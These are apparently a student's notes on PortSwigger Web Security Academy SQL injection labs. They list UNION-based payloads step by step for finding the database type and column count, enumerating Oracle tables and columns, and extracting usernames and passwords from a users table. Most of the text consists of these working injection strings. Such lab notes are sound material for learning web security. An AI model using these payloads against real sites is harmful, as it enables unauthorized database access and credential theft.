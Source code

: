 - `web-security-academy.net/filter?category=` the vulnrable parameter.

- query use `'` with value.

- `' \*comment*\ --` -> 500 server Error 
  
  - DB is **oracle** (only one doesn't accept `\*comment*\`as a comment).

- `' UNION SELECT NULL, NULL FROM dual --` -> 200 OK
  
  - SELECT use **2 columns**.

- `' UNION SELECT table_name, NULL FROM all_tables --` -> 200 Ok
  
  - return all tables in DB.
  
  - users may in table is `APP_USERS_AND_ROLES` table.

- `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'APP_USERS_AND_ROLES' --` -> 200 OK 
  
  - Columns used are **GUID ISROLE NAME**

- `' UNION SELECT NULL, NULL FROM APP_USERS_AND_ROLES --` -> 500 Server Error 
  
  - see for other table named users

- `' UNION SELECT table_name, NULL FROM all_tables --`
  
  - **USERS_ZJGSEV** maybe users table

- `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_ZJGSEV' --` -> 200 OK
  
  - **EMAIL, PASSWORD_DCJTYH, USERNAME_SHVXSD** columns for this table

- `' UNION SELECT USERNAME_SHVXSD, PASSWORD_DCJTYH FROM USERS_ZJGSEV --` -> 200 OK
  
  - show all users data **(our targter)**.

---

## [Lab: SQL injection UNION attack, determining the number of columns returned by the query | Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

**Target:** determine the number of columns returned by the query

- SQL injection vulnerability in the product category filter.

- `' /*comment*/ --` -> 200 OK  
  
  - DB is **not Oracle** .

- `' #` -> 500 Server Error
  
  - DB is Microsoft or PostgreSQL.

- `' UNION SELECT NULL, NULL, NULL --` -> 200 OK 
  
  - query select 3 columns (Target Located)

---